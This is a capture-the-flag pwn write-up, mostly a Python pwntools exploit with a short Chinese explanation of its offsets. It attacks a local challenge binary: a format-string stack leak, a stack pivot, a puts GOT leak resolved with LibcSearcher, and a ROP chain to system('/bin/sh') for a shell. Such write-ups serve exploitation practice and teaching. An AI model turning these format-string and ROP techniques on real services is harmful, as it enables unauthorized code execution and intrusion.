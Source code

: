 ```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['wt.exe', 'wsl']
e = ELF("./pwn")

#io = process("./pwn")
io = remote('127.0.0.1',62544)
# io = gdb.debug("./pwn", """b main
#                b vul
#                b *(0x401254)
#                b *(0x401268)
#                """)
# io = remote("localhost", 5621)

leave = 0x40127f
pop_rdi = 0x401203
push_rbp_pop_rdi = 0x4011FF
ret = pop_rdi + 1
pop_rbp = 0x401206
puts_plt = e.plt['puts']
puts_got = e.got['puts']
restart = 0x401268	# read


io.sendafter(b"What's your name?\n" ,b"%22$pkkk" + b"a"*0x78)

io.recvuntil(b"0x")
stack = int(io.recv(12), 16)
log.success(f"stack >>> {hex(stack)}")
target = stack - 0xb8
log.success(f"target >>> {hex(target)}")

payload1 = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rbp) + p64(target+0x30) +p64(restart)
payload1 += p64(pop_rbp) + p64(target-0x58) + p64(leave)# retto target-0x50

io.sendafter("ing?\n", payload1.ljust(0x80,b"A") + p64(target) + p64(leave))
puts_addr = u64(io.recvuntil(b"\x7f").ljust(8, b"\x00"))
log.success(f"puts_addr >>> {hex(puts_addr)}")
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base+libc.dump("system")
binsh_addr = libc_base+libc.dump("str_bin_sh")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
#libc.address = puts_addr - libc.sym['puts']
#system_addr = libc.sym['system']
#binsh_addr = next(libc.search(b"/bin/sh"))
payload2 = p64(ret)+ p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
io.send(payload2)

io.interactive()
```

## 分析

```python
io.sendafter(b"What's your name?\n" ,b"%22$pkkk" + b"a"*0x78)
```

这里格式化字符串漏洞泄露的偏移量是6

![](./image/屏幕截图 2025-03-25 205347-1742908098739-8.png)

这里可以用6+0x80/8=22来泄露`rbp`指向的地址，**这样泄露的栈地址最为稳妥**

0x78的填充可以省去，没有必要

```python
target = stack - 0xb8
```

这里是调试出来的，发现`rsp`是`rbp-0xb8`

![](./image/屏幕截图 2025-03-25 210639-1742908098739-9.png)

```python
payload1 = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rbp) + p64(target+0x30) +p64(restart)
payload1 += p64(pop_rbp) + p64(target-0x58) + p64(leave)# retto target-0x50
```

这里重复利用puts，将puts的地址泄露，`target+0x30`控制二次读取时的栈位置（给后面留空间，8*6=0x30）

`pop_rbp`防止被迁移到.text段,如下图，如果没有`pop_rbp`将`rbp`的值弹出，`rbp`就变成了`0x40127`

![](./image/屏幕截图 2025-03-25 211928.png)

后面就正常了
